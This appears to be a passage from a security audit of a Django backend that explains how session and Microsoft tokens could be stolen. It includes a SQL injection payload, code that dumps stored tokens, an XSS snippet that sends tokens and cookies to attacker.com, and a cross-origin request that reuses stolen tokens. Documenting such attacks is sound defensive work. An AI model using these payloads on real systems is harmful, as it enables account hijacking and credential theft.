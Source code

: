 ### 5.1 Token Extraction Attack

```python
# 1. SQL Injection (se houver)
payload = "'; SELECT microsoft_token FROM authentication_usersession--"

# 2. Direct DB Access
import django
django.setup()
from authentication.models import UserSession
for session in UserSession.objects.filter(is_active=True):
    print(f"Token: {session.microsoft_token}")  # Token em texto claro!

# 3. Memory Dump
# Tokens ficam em memória sem proteção
```

### 5.2 Session Hijacking

```javascript
// 1. XSS para roubar token (se houver XSS)
fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
        token: localStorage.getItem('session_token'),
        cookies: document.cookie
    })
});

// 2. Use stolen token
fetch('https://api.company.com/api/documents/', {
    headers: {
        'Authorization': 'Bearer STOLEN_TOKEN'
    }
});
```

### 5.3 CORS Token Theft

```javascript
// De um site malicioso
fetch('https://knight-backend.company.com/api/auth/profile/', {
    credentials: 'include',  // Se CORS permitir
    headers: {
        'Authorization': 'Bearer ' + stolenToken
    }
})
.then(r => r.json())
.then(data => {
    // Acesso aos dados!
});
```
